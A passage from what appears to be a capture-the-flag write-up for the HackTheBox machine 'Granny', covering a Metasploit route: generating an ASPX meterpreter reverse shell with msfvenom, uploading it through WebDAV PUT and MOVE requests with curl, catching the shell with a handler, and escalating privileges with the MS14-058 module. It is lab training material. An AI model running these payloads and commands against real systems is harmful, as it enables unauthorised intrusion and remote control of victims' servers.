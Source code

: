 So all you can do is use the exploit to view the _user.txt_ and _root.txt_ flags. I however, like to get a privileged shell on each box I solve and so I’m going to use Metasploit to get a shell on this box.

## Extra Content: Metasploit Solution <a id="317c"></a>

I’m going to skim through this part since there are a ton of write ups out there that show how to solve this box using Metasploit.

First, create an ASPX meterpreter reverse shell.

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=8888 -f aspx > met-shell.aspx
```

Then upload the shell payload in the same way we did before.

```text
root@kali:~/Desktop/htb/granny# cp met-shell.aspx met-shell.txtroot@kali:~/Desktop/htb/granny# curl -X PUT http://10.10.10.15/met-shell.txt --data-binary @met-shell.txtroot@kali:~/Desktop/htb/granny# curl -X MOVE -H 'Destination: http://10.10.10.15/met-shell.aspx' http://10.10.10.15/met-shell.txt
```

Configure metasploit to receive the reverse shell.

```text
use exploit/multi/handler
set lhost tun0
set lport 8888
```

Confirm that the configuration was set properly using the “_options_” command.

![](https://miro.medium.com/max/1023/1*URuv3JpitFcQosEb7qgPUg.png)

Then use the “_run_” command to start the reverse tcp handler. In the browser, execute the _met-shell.aspx_ payload and wait for a session to open up in Metasploit.

![](https://miro.medium.com/max/1035/1*8qr962N2EhGfjSOYVE1zSA.png)

Perfect! Next, use the local exploit suggester module to see which exploits the system is vulnerable to.

![](https://miro.medium.com/max/1189/1*NHjcuWBAByttFKC56LVZuQ.png)

We’ll go with the second one MS14–058.

```text
use exploit/windows/local/ms14_058_track_popup_menu
set session 1
run
```

It opens up another session.

![](https://miro.medium.com/max/1088/1*2gb6IknR6r5uGZ18RQnfow.png)

Let’s see what privilege we’re running with.
